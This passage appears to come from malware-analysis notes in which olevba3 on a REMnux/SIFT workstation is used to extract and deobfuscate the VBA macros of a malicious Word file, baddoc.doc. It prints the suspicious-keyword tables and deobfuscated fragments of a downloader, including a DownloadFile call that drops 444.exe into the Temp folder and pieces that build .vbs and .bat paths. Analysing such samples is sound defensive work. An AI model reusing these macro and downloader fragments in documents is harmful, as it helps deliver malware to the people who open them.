 ```
|          |                    |command                                      |
|Suspicious|Call                |May call a DLL using Excel 4 Macros (XLM/XLF)|
|Suspicious|MkDir               |May create a directory                       |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Shell.Application   |May run an application (if combined with     |
|          |                    |CreateObject)                                |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
+----------+--------------------+---------------------------------------------+
```

### Extract VBA
```
nux@siftworkstation: ~/Work
$ olevba3 -c baddoc.doc > out.vba
```

### Deobfuscate strings
```
remnux@siftworkstation: ~/Work
$ olevba3 --deobf baddoc.doc 
olevba 0.56.1 on Python 3.8.10 - http://decalage.info/python/oletools
===============================================================================
FILE: baddoc.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file: baddoc.doc - OLE stream: 'Macros/VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub Auto_Open()
    h
End Sub
<--snip-->
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|AutoExec  |Auto_Open           |Runs when the Excel Workbook is opened       |
|AutoExec  |Workbook_Open       |Runs when the Excel Workbook is opened       |
|Suspicious|Environ             |May read system environment variables        |
|Suspicious|Open                |May open a file                              |
|Suspicious|Write               |May write to a file (if combined with Open)  |
|Suspicious|Output              |May write to a file (if combined with Open)  |
|Suspicious|Print #             |May write to a file (if combined with Open)  |
|Suspicious|Kill                |May delete a file                            |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
<---snip--->
|VBA string|$down.DownloadFile($|"$d" + "o" & Chr(Asc("w")) + "n" & "." &     |
|          |url,$file);         |Chr(68) & "ow" & "nloa" & "dFi" & "le($u" &  |
|          |                    |"rl,$" & "file);"                            |
|VBA string|\AppData\Local\Temp\|"\AppData\Local\Temp\" + "444.e" &           |
|          |444.exe';           |Chr(Asc("x")) + "e" & "';"                   |
|VBA string|'+'.'+'v'+'bs';     |Chr(39) + Chr(43) + Chr(39) + "." + Chr(39) +|
|          |                    |Chr(43) + Chr(39) + "v" + Chr(39) + Chr(43) +|
|          |                    |Chr(39) + "bs" + Chr(39) + ";"               |
|VBA string|$batFilePath =      |"$b" + "a" + "tFilePath = 'c:\Users\"        |
|          |'c:\Users\          |                                             |
|VBA string|'+'.'+'b'+'at';     |Chr(39) + Chr(43) + Chr(39) + "." + Chr(39) +|
|          |                    |Chr(43) + Chr(39) + "b" + Chr(39) + Chr(43) +|
|          |                    |Chr(39) + "at" + Chr(39) + ";"               |
|VBA string|$psFilePath =       |"$p" + "sFilePath = 'c:\Users\"              |
```